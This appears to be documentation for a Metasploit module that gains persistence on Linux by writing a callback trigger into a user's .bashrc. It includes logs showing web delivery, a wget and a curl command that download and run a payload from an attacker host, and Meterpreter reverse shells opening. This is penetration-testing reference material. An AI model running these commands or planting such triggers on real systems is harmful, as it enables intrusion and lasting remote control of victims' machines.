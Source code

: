 ## Description

This module writes an execution trigger to the target's Bash profile.
The execution trigger executes a call back payload whenever the target
user opens a Bash terminal.

Verified on Ubuntu 22.04 and 18.04 desktop with Gnome

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/local/bash_profile_persistence`
4. `set SESSION [SESSION]`
5. `run`
6. On victim, open a new Bash terminal
7. You should get a new session with the permissions of the exploited user account

## Options

**BASH_PROFILE**

The path to the target Bash profile. Defaults to `.bashrc`

**BACKDOOR_NAME**

Name of the payload file. Defaults to random

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 

[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO O2XZweCh --no-check-certificate http://111.111.1.111:8181/l; chmod +x O2XZweCh; ./O2XZweCh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:44878) at 2025-02-06 21:11:39 -0500
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/bash_profile 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > exploit
[*] Command to run on remote host: curl -so ./QfTygMjF http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./QfTygMjF;./QfTygMjF&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/bash_profile) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bash profile exists: /home/ubuntu/.bashrc
[+] Bash profile is writable: /home/ubuntu/.bashrc
[!] The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] Created backup Bash profile: /root/.msf4/loot/20250206211215_default_222.222.2.222_desktop..bashrc_080965.txt
[*] Writing '/tmp/BfkldKp4' (100 bytes) ...
[*] Created Bash profile persistence
[+] Payload will be triggered when target opens a Bash terminal
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.1216/ubuntu18desktop.local_20250206.1216.rc
```
On the remote host open `/bin/bash`

```
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:40990) at 2025-02-06 21:12:21 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/bash_profile) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```
